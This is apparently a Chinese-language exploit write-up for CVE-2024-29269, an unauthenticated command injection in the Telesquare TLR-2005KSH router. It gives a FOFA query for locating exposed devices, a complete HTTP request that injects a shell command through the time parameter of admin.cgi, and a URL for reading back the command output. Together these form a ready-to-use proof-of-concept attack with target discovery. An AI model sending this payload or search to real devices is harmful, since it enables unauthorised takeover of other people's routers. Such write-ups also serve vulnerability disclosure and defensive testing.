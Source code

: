 # CVE-2024-29269

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Telesquare TLR-2005KSH路由器未授权远程命令执行漏洞



## 0x01 前言

**Telesquare TLR-2005KSH**是韩国Telesquare公司的一款SK电讯Lte路由器。

## 0x02 漏洞描述

**Telesquare TLR-2005Ksh**存在未经授权的远程命令执行漏洞。

攻击者可以利用此漏洞在未经身份验证的情况下使用cmd参数执行系统命令，并获取服务器权限。

## 0x03 影响版本

`Telesquare TLR-2005Ksh 1.0.0、1.1.4版本`

## 0x04 FOFA语法

```
app:"TELESQUARE-TLR-2005KSH"
```

## 0x05 漏洞复现

```
GET /cgi-bin/admin.cgi?Command=setSyncTimeHost&time=`id>1.txt` HTTP/1.1
Host: {target-ip}:{port}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Connection: close
```

![Untitled](image/Untitled.png)

验证 通过下面地址查看是否有回显

```
http://{target-ip}:{port}/cgi-bin/1.txt
```